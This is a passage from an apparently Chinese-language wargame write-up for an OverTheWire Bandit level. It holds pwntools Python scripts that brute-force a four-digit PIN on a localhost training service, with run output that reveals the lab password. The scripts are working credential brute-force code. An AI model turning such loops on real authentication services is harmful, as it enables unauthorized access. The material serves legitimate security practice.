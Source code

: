 Note: It’s been pointed out that my while loop is an infinity loop. I know, I could have just used a for loop and that’s a better method of doing it. I was planning on putting in error handling + conditionals but it wasn’t necessary.


3.
根据python的pwntools写个脚本跑密码就好了
- 在其他目录下没有写权限，这个脚本只能在/tmp目录下创建。
- 如果用的是我下面这种receive line方法，有些破坏输出的结果我要多接收一行过滤掉，

```py
$ nano /tmp/conn.py

#！ /usr/bin/python
from pwn import *

conn = remote('localhost', '30002')
badline = conn.recvline()
for i in range(1000):
    tmp = str(i).zfill(4)
    print '[+] Trying pincode: ' + str(tmp)
    conn.sendline('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ' + tmp)
    response = conn.recvline()
    print response

    if "Wrong" not in response:
       print "Got Pincode: " + str(tmp)
       response = conn.recvline()
       print response
       exit(0)

# 终端运行
python /tmp/conn.py
...
[+] Trying pincode: 0377
Wrong! Please enter the correct pincode. Try again.
[+] Trying pincode: 0378
Correct!
Got Pincode: 0378
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

```

4.
```py
#!/usr/bin/python
from pwn import *
from multiprocessing import Process

def brute(nrOne,nrTwo):
    for pin in range(nrOne,nrTwo):
        pin = str(pin).zfill(4)

        r = remote('localhost', 30002)
        r.recv()
        r.send('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ ' + pin + '\n')

        if 'Wrong' not in r.recvline():
            print '[+] Successful -> ' + pin
            print r.recvline()
            r.close()
        else:
            if int(pin) % 100 == 0:
                print '[!] Failed -> ' + pin
            r.close()

```
